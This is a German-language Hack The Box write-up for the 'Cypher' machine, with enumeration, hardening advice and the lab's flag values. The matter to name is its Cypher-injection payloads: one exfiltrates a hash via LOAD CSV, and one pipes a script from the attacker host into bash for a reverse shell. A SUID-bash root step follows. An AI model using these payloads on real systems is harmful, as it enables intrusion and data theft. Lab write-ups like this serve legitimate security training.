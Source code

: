 # Maschine 2: Cypher

## 1. Netzwerkanbindung

```bash
sudo openvpn ~/Desktop/lab_lyfe691.ovpn
```

![Bild → vpn_connected.png</code>](image.png)

---

## 2. Zielerkennung & Vorbereitung

Ziel-IP von HTB erhalten: 10.10.11.57

Vollständiger nmap‑Scan mit Versionserkennung, OS‑Erkennung, Scripts und Aggressivität T4:

```bash
nmap -sV -A -T4 10.10.11.57 -oN nmap_cypher.txt
```

Output zeigt SSH und HTTP:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

![alt text](Screenshot_2025-05-05_14_11_01.png)

Wir testen den HTTP‑Zugang über den Browser und merken schnell, dass die Seite cypher.htb erwartet – wir werden automatisch redirected.

Daher passen wir die /etc/hosts Datei an:

```bash
10.10.11.57   cypher.htb
```

![alt text](Screenshot_2025-05-05_14_12_29-1.png)

---

## 3. Web‑Enumeration & Eingabeprüfung

Direkt auf http://cypher.htb zeigt sich eine Landing page mit login maske.

![alt text](Screenshot_2025-05-05_16_06_14.png)

Wir testen mit  dirsearch, um weitere Pfade zu finden:

Dirsearch‑Treffer:

```
/about
/api/  -> /api/docs
/demo  -> /login
/login
/testing/
```

![alt text](Screenshot_2025-05-05_14_28_23-2.png)

Der Login meldete bei manipulierten Eingaben einen Neo4j‑Fehler – Beweis für unsichere String‑Konkatenation.

![alt text](Screenshot_2025-05-05_14_49_33-1.png)

Das ist ein starker Hinweis: Backend nutzt Neo4j und unsichere String‑Konkatenation. Wir entscheiden uns, gezielt Cypher‑Injection zu testen.

---

## 4. Datenabfluss mit LOAD CSV auslösen

Python‑HTTP‑Server (Port 8000) gestartet, dann Payload:

```json
{
  "username": "admin' OR 1=1  LOAD CSV FROM 'http://10.10.14.204:8000/leak='+h.value AS y RETURN ''//",
  "password": "123"
}
```

Server‑Log zeigte die Abfrage inkl. Hash:

```
GET /leak=9f54ca... HTTP/1.1
```

![alt text](Screenshot_2025-05-05_15_19_21.png)

---

## 5. RCE mit getUrlStatusCode() via APOC

`shell.sh` wurde per HTTP ausgeliefert, Listener auf Port 9001.

Payload:

```json
{
  "username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;curl http://10.10.14.204:8000/shell.sh|bash;') YIELD statusCode AS value RETURN value;//",
  "password": "123"
}
```

Die Shell poppte als **neo4j**:

```
uid=997(neo4j) gid=995(neo4j)
```

![alt text](Screenshot_2025-05-05_15_48_30-1.png)

---

## 6. Privilege Escalation → root

1. **Passwort in `bbot_preset.yml`** gefunden (Zeile 10).
2. Da `su graphasm` scheiterte, setzten wir mittels SUID‑Bash direkt auf root:

```bash
/tmp/bash -p
root@cypher:/# id
uid=0(root) gid=0(root)
```

/home/kali/Pictures/Screenshot_2025-05-05_15_50_40.png
------------------------------------------------------

7. Flags

```bash
/home/graphasm/user.txt  -> 0a4de27fa731a210ead73b20dfc80140
/root/root.txt           -> e5577526fb5f80c5cb113cde4111ab3d
```
![alt text](<Screenshot 2025-05-05 at 15-53-50 Hack The Box Hack The Box.png>)

link: https://www.hackthebox.com/achievement/machine/2350832/650

---

## 8. Empfehlungen

1. **Parametrisierte Cypher‑Queries** einsetzen, niemals Strings konkatenieren.
2. Unsichere APOC‑Funktionen entfernen oder absichern.
3. **sudo‑Rechte** auf das notwendige Minimum beschränken.
4. Keine Klartext‑Passwörter in Konfigurationsdateien.

---

✅ **Cypher komplett owned**
